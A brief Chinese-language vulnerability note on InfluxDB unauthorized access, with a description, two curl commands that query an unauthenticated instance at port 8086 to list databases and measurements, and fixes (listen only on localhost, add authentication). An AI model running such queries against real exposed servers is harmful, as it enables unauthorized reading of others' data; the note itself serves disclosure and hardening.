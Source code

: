 ### 一 漏洞描述
InfluxDB是一个开源的时序数据库，由GO语言编写，用于处理高写入和高查询负载。Influxdb被广泛应用于存储系统的监控数据，IoT行业的实时数据等场景。

若开发者在使用时配置不当，则可能引发InfluxDB未授权访问漏洞，攻击者可以在未经认证的情况下，直接操作数据库中的数据。

### 二 漏洞利用
列出所有数据库：

curl -G 'http://1.1.1.1:8086/query' --data-urlencode 'q=SHOW DATABASES'


查看对应数据库的measurement（相当于mysql中的table）

curl -G 'http://1.1.1.1:8086/query?db=jmeter' --data-urlencode 'q=show measurements'

### 三 漏洞修复
1.仅监听localhost，防止外部未授权访问

2.添加认证。


